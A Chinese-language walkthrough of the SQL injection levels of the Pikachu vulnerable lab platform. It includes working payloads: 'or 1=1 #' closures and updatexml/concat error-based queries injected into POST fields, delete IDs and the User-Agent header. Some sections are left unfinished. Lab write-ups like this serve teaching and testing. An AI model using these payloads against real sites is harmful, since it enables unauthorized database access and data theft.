







# SQL Inject

## 数字型注入

### 分析

选个数字查询，URL没变化，看 BP 可见是通过 POST 传递的


猜测查询语句：

```sql
select user, email from 表名 where id=1;
```


### 利用

先直接试试构造非法语句 改一下id `1 or 1=1`

```sql
select user, email from 表名 where id=1 or 1=1;
```

搞定，用户全出来了


## 字符型注入

### 分析

先随便提交个数据，发现是 GET 传递


根据上一步，提交上一步的 vince 用户试试




猜测查询语句

```sql
select uid, email from 表名 where name='vince'
```


### 利用

构造 Payload，把 name 给闭合掉，并添加 `or 1=1 #`

搞定




## 搜索型注入

### 分析

与字符型同理，除了此处的 SQL 查询执行的是模糊查询，但这并不影响，因为可以闭合然后注释掉


### 利用

构造 Payload 

```
vin' or 1=1 #
```




## xx型注入

### 分析

老规矩，直接先试试 `vince' or 1=1 #`

提示缺了个右符号，那应该就是右括号了吧


### 利用

构造 Payload 

```
vince') or 1=1 #
```


## "insert/update"注入

随便注册个信息，BP 看包内的信息，可以看到六个数据项




### 利用

#### insert注入

利用报错注入

利用concat执行sql注入语句

使用updatexml报错信息将sql语句执行结果返回

```
'or updatexml(1,concat(0x7e,database(),0x7e),0) or'
```


#### update注入

Payload ：

```
'or updatexml(1,concat(0x7e,database(),0x7e),0) or'
```




## delete注入

### 分析

删除留言的时候传递了 ID


### 利用

BP 改包

Payload：

```
id=57 or updatexml(1,concat(0x7e,(select database()),0x7e),1)
```


注意要编码一下






## http头注入

### 分析

登录进去看看，内容是来自 HTTP Header


### 利用

BP 改包，在 UserAgent 末尾加上

```
' or updatexml(1,concat(0x7e,database()),1) or'
```


## 基于boolian的盲注（待补）


## 基于时间的盲注（待补）


## wide byte注入（待补）


参考：[pikachu SQL注入 (皮卡丘漏洞平台通关系列)_仙女象的博客-CSDN博客_pikachu sql注入](https://blog.csdn.net/elephantxiang/article/details/115771540)